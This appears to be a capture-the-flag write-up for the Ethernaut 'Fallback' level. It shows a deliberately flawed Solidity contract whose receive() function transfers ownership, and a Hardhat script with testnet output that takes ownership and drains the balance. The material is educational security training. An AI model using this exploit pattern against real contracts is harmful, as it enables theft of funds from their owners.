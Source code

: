```yaml
---
title: Ethernaut \#01 Fallback
tags: [ethernaut]
style: border
color: primary
description: Ethernaut Fallback challenge writeup
---
```


## Fallback

### Challenge

Look carefully at the contract's code below.

You will beat this level if

    you claim ownership of the contract
    you reduce its balance to 0

  Things that might help

    How to send ether when interacting with an ABI
    How to send ether outside of the ABI
    Converting to and from wei/ether units (see help() command)
    Fallback methods


```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Fallback {

  using SafeMath for uint256;
  mapping(address => uint) public contributions;
  address payable public owner;

  constructor() public {
    owner = msg.sender;
    contributions[msg.sender] = 1000 * (1 ether);
  }

  modifier onlyOwner {
        require(
            msg.sender == owner,
            "caller is not the owner"
        );
        _;
    }

  function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }

  function getContribution() public view returns (uint) {
    return contributions[msg.sender];
  }

  function withdraw() public onlyOwner {
    owner.transfer(address(this).balance);
  }

  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
}
```

### Background

The `fallback` function is a function that is called when the function identifier does not match any of the contract functions or if a function call is invoked without any data (hence no function identifier is provided). Since Solidity 0.6.0 a the function `receive` was introduced. `receive` works the same way as fallback but is called when the invocation has a value (funds).

### Attack

Solving this is pretty straight forward. The whole challenge just seems to be around understanding how to invoke the `fallback` functionality (more specifically the `receive` functionality).

* In order to call the `withdraw` function one needs to be the owner.
* If the `fallback` function is called with some value and the `msg.sender` already has contributed some funds, the owner is changed to the `msg.sender`. So the 
* One can call `contribute` with less than `0.001 ETH` and place some contribution.

So the attack would look something like this

* call `contribute` with less than `0.001 ETH`
* call `fallback` with some value
* call `withdraw`

#### fallback-solve.js

```javascript
const hre = require("hardhat");
const { ethers, upgrades } = require("hardhat");

async function main() {
    // get contract
    fallbackAddress = "0x253Acf9cFeB752D9A1ce78b808b292E4D91C2c46";
    contract = await ethers.getContractAt("Fallback", fallbackAddress);

    // get account
    const accounts = await hre.ethers.getSigners();
    account = accounts[0];

    // initial state
    console.log("Level address   : " + contract.address)
    console.log("Contract Owner  : " + await contract.owner())
    console.log("Contract Balance: " + await ethers.provider.getBalance(contract.address))

    // make small contribution
    tx = await contract.connect(account).contribute({ value: ethers.utils.parseEther("0.001") - 1 })
    receipt = await tx.wait()

    // call fallback function and become owner
    tx = await account.sendTransaction({
        to: contract.address,
        data: "0x",
        value: ethers.utils.parseEther("0.001")
    });
    receipt = await tx.wait()

    // withdraw contract funds
    tx = await contract.connect(account).withdraw()
    receipt = await tx.wait()

    // final state
    console.log("Contract Owner  : " + await contract.owner())
    console.log("Contract Balance: " + await ethers.provider.getBalance(contract.address))
}

main().catch((error) => {
    console.error(error);
    process.exitCode = 1;
});
```

```bash
$ npx hardhat run scripts/fallback-solve.js --network rinkeby
Level address   : 0x253Acf9cFeB752D9A1ce78b808b292E4D91C2c46
Contract Owner  : 0x9CB391dbcD447E645D6Cb55dE6ca23164130D008
Contract Balance: 0
Contract Owner  : 0x11bAe9eA1851939a485f1F00b7B0Eec099e9276d
Contract Balance: 0
```

### Success Message

You know the basics of how ether goes in and out of contracts, including the usage of the fallback method.

You've also learnt about OpenZeppelin's Ownable contract, and how it can be used to restrict the usage of some methods to a privileged address.

Move on to the next level when you're ready!
